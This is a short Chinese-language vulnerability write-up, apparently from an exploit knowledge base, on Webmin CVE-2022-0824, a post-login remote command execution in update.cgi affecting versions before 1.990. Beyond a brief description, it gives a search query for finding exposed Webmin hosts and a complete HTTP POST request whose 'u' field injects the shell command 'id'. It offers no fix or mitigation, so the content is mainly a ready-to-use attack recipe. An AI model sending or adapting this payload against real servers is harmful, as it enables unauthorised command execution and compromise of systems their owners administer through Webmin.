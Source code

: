 # Webmin update.cgi 后台远程命令执行漏洞 CVE-2022-0824

## 漏洞描述

Webmin是Webmin社区的一套基于Web的用于类Unix操作系统中的系统管理工具。

Webmin 1.990之前版本存在安全漏洞，该漏洞源于软件中存在不正确的访问控制，攻击者可以利用该漏洞实现远程代码执行

## 漏洞影响

<a-checkbox checked>Webmin < 1.990</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="webmin"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1661479903495-110cfdb8-0a65-4ffb-8779-62b388a34563-20220827113208771.png)

登录后发送请求包

```php
POST /package-updates/update.cgi HTTP/1.1
Cookie: sid=882af4543067bc6214d2c769325f3b2f
Referer: http:///package-updates/update.cgi?xnavigation=1

mode=new&search=ssh&redir=&redirdesc=&u=0;id;&confirm=Install+Now
```

![img](../../../.vuepress/public/img/1661516324481-459f62d3-08f5-49e8-961c-42e4e1b7e4db-20220827113227774.png)
